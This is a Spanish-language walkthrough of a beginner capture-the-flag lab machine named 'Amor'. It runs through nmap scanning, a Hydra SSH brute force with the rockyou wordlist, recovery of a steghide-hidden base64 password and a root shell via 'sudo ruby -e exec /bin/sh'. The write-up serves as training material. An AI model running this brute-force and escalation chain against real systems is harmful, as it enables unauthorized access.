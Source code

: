```yaml
---
description: '✍️ Autor: Romabri🔍 Dificultad: Fácil  📅 Fecha de creación: 26/04/2024'
---
```


# Amor

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/0 (5).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

![](<../../.gitbook/assets/1 (5).png>)

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/2 (5).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea de una empresa de seguridad.

![](<../../.gitbook/assets/3 (5).png>)

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**. Hemos probado con **Juan**, pero el usuario que responde es **carlota**.

Al realizar el ataque de fuerza bruta, descubrimos la contraseña de **carlota**, por lo que nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh carlota@172.17.0.2
```

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

![](<../../.gitbook/assets/5 (5).png>)

Indagando entre los directorios encontramos que hay una imagen por lo que a través de **SFTP** la trasladaremos a nuestra propia máquina. Esto se puede llevar a cabo ya que conocemos las credenciales perfectamente.

![](<../../.gitbook/assets/6 (4).png>)

![](<../../.gitbook/assets/7 (4).png>)

Con el comando:

```bash
steghide extract -sf imagen.jpg
```

extraemos datos ocultos de un archivo de imagen llamado **imagen.jpg** usando la herramienta **Steghide**, obteniendo un archivo llamado **secret.txt**.

![](<../../.gitbook/assets/8 (4).png>)

![](<../../.gitbook/assets/9 (4).png>)

Como comprobamos que el contenido está en **base64**, lo decodificamos con el comando:

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 --decode
```

![](<../../.gitbook/assets/10 (3).png>)

Al parecer, es una contraseña. En la carpeta **home** hay tres usuarios en los cuales podemos probar esa contraseña. Nos damos cuenta de que podemos acceder como **Óscar**. Al tener acceso, observamos los permisos y explotamos el binario de **Ruby** con el comando:

```bash
sudo ruby -e 'exec "/bin/sh"
```

<figure><img src="../../.gitbook/assets/image (525).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (526).png" alt=""><figcaption></figcaption></figure>
